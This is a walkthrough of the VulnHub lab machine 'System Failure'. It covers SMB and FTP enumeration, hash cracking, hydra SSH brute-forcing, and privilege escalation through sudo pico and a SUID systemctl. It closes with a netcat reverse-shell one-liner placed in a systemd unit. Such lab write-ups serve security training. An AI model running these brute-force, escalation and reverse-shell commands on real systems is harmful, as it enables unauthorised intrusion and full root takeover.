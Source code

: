 # System Failure - VulnHub Machine Writeup

## Nmap Scan
The initial scan with `nmap` revealed the following open ports:
- FTP
- SSH
- HTTP
- SMB

This indicated multiple services for further enumeration.

![Nmap Scan Results](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img1.png)

---

## Enum4Linux Enumeration
Using `enum4linux`, I identified four users:
- `admin`
- `superadmin`
- `jin`
- `valex`

Additionally, there were some SMB shares, including an `anonymous` share.

![Enum4Linux Results - Part 1](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img2.png)

![Enum4Linux Results - Part 2](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img3.png)

---

## Accessing the Anonymous SMB Share
I accessed the `anonymous` SMB share and downloaded a file. It contained some information and a password for FTP. Initially, I thought it was hexadecimal, but it turned out to be an NTLM hash. I cracked the hash using [CrackStation](https://crackstation.net).

![SMB File Details](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img4.png)

![CrackStation Results](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img5.png)

---

## FTP Access and File Enumeration
Using the cracked FTP credentials, I accessed the server and discovered some files. One folder contained nearly 1000 files, but one file stood out due to its size. I downloaded it and found a passage along with a `here.txt` file.

![FTP Access](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img6.png)

![File Inspection - Passage](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img7.png)

![File Inspection - here.txt](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img8.png)

---

## Decoding Base62 and Web Directory Enumeration
The passage contained a string `J310MIYla1aVUaSV`, which I decoded from Base62 to discover a web directory path. Brute-forcing revealed a directory named `area4`. Inside, I found a `useful.txt` wordlist, likely containing SSH passwords.

![Web Enumeration](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img9.png)

---

## SSH Brute-Forcing
Using the wordlist and the known usernames, I brute-forced SSH with `hydra`. After experimenting with different arguments, I successfully found the password for the user `valex`.

![Hydra Brute-Force](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img10.png)

---

## Privilege Escalation to `jin`
After logging in as `valex`, I discovered that `valex` could execute `/usr/bin/pico` as `jin`. Using [GTFOBins](https://gtfobins.github.io/), I escalated to the `jin` user:

### Commands Used:
```bash
sudo -u jin /usr/bin/pico
```

In `nano`, I pressed `CTRL+R` and `CTRL+X` to access command execution, then ran:
```bash
reset; sh 1>&0 2>&0;
```

![Privilege Escalation to jin](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img11.png)

---

## Privilege Escalation to Root
As `jin`, I found the `systemctl` SUID binary. Referring to GTFOBins, I exploited it to gain root access:

### Commands Used:
```bash
TF=$(mktemp).service

cat << EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 4444 >/tmp/f"
[Install]
WantedBy=multi-user.target
EOF

/usr/bin/systemctl link $TF
/usr/bin/systemctl enable --now $TF
```

Start a Netcat listener before running the commands to catch the reverse shell.

![Root Shell Obtained](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/System%20Failure/img/img13.png)


**Author:** Sagar Sehrawat  
